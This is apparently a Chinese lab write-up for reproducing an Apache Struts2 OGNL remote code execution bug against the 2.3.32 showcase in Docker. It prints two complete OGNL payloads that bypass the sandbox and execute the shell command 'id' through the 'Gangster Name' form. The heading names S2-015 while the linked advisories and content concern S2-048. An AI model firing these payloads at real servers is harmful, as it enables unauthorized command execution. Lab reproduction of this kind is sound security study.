 # S2-015 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.32

漏洞详情: 

 - http://struts.apache.org/docs/s2-048.html
 - http://bobao.360.cn/learning/detail/4078.html
 - http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/

## 测试环境搭建

```
docker-compose up -d
```

## 漏洞复现

原理详见参考文档，这里只说一下当前环境。

这个环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问`http://your-ip/showcase/`即可查看到struts2的测试页面。

访问Integration/Struts 1 Integration：

![](01.png)

触发OGNL表达式的位置是`Gangster Name`这个表单。

输入`${233*233}`即可查看执行结果（剩下两个表单随意填写）：

![](02.png)

借用S2-045的沙盒绕过方法，我改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![](03.png)

当然，你也可以直接用s2-045的POC（你需要在Burp下进行测试）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```